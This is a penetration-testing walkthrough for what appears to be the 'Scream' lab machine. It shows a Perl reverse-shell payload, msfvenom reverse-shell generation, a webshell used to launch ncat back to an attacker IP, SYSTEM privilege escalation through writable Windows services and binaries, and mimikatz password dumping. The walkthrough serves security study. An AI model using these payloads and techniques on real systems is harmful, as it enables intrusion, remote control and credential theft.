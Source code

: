 # Port 21(FTP+TFTP)

1. nmap detected WarFTP 1.65
   * There is a buffer overflow exploit for this version, but it does not work
1. Allows anonymous access
   ![500](images/scream%20ftp%20anon.png)
   * No read/write access
   * OpenTFTPServerMT could indicate that tftpd is running
1. At `/root` dir, 
   ![500](images/scream%20root%20dir.png)
   * These files indicates that FTP is sharing its web directory files (`/root`), if we are able to put a reverse shell perl script into cgi-bin, we have rce
1. Try tftp
   ![500](images/scream%20tftp%20write%20access.png)
   * TFTP is under `/root` directory
   * we are able to insert files
1. Upload perl webshell/reverseshell script via tftp
1. Generate perl reverse shell script
   1. Generate msfvenom payload
      ````
      msfvenom -p cmd/windows/reverse_perl LHOST=10.2.0.3 LPORT=4444 -o shell.pl
      ````
   
   1. Remove useless characters `perl -MIO -e, "", \`
      ![500](images/scream%20remove%20characters%20from%20payload.png)
   1. Prepend `use IO::Socket::INET` module & change IP address
      ![500](images/scream%20prepend%20socket%20module.png)
   1. Final payload
      ````
      use IO::Socket::INET;$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.1.1:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;
      ````

1. Upload perl shell via TFTP at `cgi-bin/`
   ![500](images/scream%20uploaded%20perl%20script.png)
1. Obtain a low-priv shell by visiting `http://192.168.1.98/cgi-bin/shell3.pl`
   ![500](images/scream%20low-priv%20shell%20obtained.png)
1. Additional Shell,  Upload webshell 
   ````
   cp /usr/share/webshell/perl/perlcmd.cgi $(pwd)/perlcmd.pl
   tftp put cgi-bin/perlcmd.pl
   ````
   
   ![500](images/scream%20perl%20webshell.png)
1. Execute commands
   ````
   192.168.1.98/cgi-bin/perlcmd.pl?dir
   ````
   
   ![500](images/scream%20webshell%20uploaded.png)
1. Upload ncat.exe
   ![500](images/scream%20uploaded%20ncat.exe.png)
1. Obtain a low-priv shell 
   ````
   192.168.1.98/cgi-bin/perlcmd.pl?ncat.exe%20192.168.1.1%204444%20-e%20cmd.exe
   ````
   
   ![500](images/scream%20low-priv%20shell%20obtained%202.png)

# Privilege Escalation to SYSTEM  - 1 via RW Service

1. View current processes running as SYSTEM
   ````
   tasklist /FI "username eq SYSTEM"
   ````
   
   ![400](images/scream%20current%20processes.png)
   * Take note of 3rd Party/Non-Default applications
     * FileZilla
     * FreeSSHD
     * TFTP
1. View running services
   ````
   net start
   # This is their display name, not service name
   ````
   
   ![500](images/scream%20running%20services.png)
1. Check if you can stop the service
   ````
   net stop "FileZilla Server FTP Server"
   ````
   
   ![500](images/scream%20able%20to%20stop%20service.png)
1. Get exact name of service,
   ````
   sc query | findstr /i "FileZilla"
   sc query | findstr /i "TFTP"
   sc query | findstr /i "SSHD"
   ````
   
   ![500](images/scream%20service%20name.png)
1. Check for user's permission on the service
   ````
   accesschk.exe /accepteula -uwcqv alex "FileZilla Server"
   accesschk.exe /accepteula -uwcqv alex "TFTPServer"
   accesschk.exe /accepteula -uwcqv alex "FREESSHDService"
   ````
   
   ![500](images/scream%20check%20access%20for%20user%20for%20service.png)
   * RW, SERVICE_ALL_ACCESS
1. Display information about the service
   ````
   sc qc "FileZilla Server"
   ````
   
   ![500](images/scream%20service%20info.png)
   * Since have SERVICE_ALL_ACCESS 
   * We can change path of `BINARY_PATH_NAME` to reverse shell.exe
1. Generate payload & Upload it to target
   ````
   msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=1337 -f exe -o rev.exe
   ````

1. Replace `BINARY_PATH_NAME` to our reverse shell
   ````
   sc config "FileZilla Server" binpath= "\"C:\www\root\cgi-bin\rev.exe""
   ````

1. Check updated Service Configuration
   ````
   sc qc "FileZilla Server"
   ````
   
   ![400](images/scream%20updated%20service%20binary%20path.png)
1. Start listener & service to obatin SYSTEM shell
   ````
   net start "FileZilla Server FTP Server"
   ````
   
   ![500](images/scream%20SYSTEM%20shell%20obtained.png)

# Privilege Escalation to SYSTEM  - 1 via RW Service Binary

1. Instead of changing the BINARY_PATH, we check if write access to the binary 
1. Change back BINARY_PATH to default
   ````
   sc config "FileZilla Server" binpath= "\"C:\Program Files\FileZilla Server\FileZilla Server.exe""
   ````

1. View updated service configuration
   ````
   sc qc "FileZilla Server"
   ````
   
   ![500](images/scream%20updated%20service%20config%202.png)
1. Check if we have write access to the binary "FileZilla Server.exe"
   ````
   accesschk.exe /accepteula alex -quvw "C:\Program Files\FileZilla Server\FileZilla Server.exe"
   ````
   
   ![Pasted image 20220108145648.png](images/Pasted%20image%2020220108145648.png)
   * RW, FILE_ALL_ACCESS
1. Replace binary with our reverse shell
   ````
   move "C:\Program Files\FileZilla Server\FileZilla Server.exe" "C:\Program Files\FileZilla Server\FileZilla Server.exe.bak"
   
   copy "C:\www\root\cgi-bin\rev.exe" "C:\Program Files\FileZilla Server\FileZilla Server.exe"
   ````
   
   ![500](images/scream%20backup%20filezilla%20&%20replace%20filezilla%20with%20rev%20shell.png)
1. Start listener & Service to obtain SYSTEM shell
   ````
   net start "FileZilla Server FTP Server"
   ````
   
   ![500](images/scream%20SYSTEM%20shell%20obtained%202.png)

# Obtain Alex Password

1. Via mimikatz.exe
1. Upload mimikatz.exe
1. Obtain password
   ````
   mimikatz.exe
   sekurlsa::logonpasswords
   ````
   
   ![500](images/scream%20alex%20password.png)

---

Tags: #tcp/22-ftp/anon #tcp/22-ftp/write-access #win-priv-esc/rw-service-bin #win-priv-esc/rw-service

---
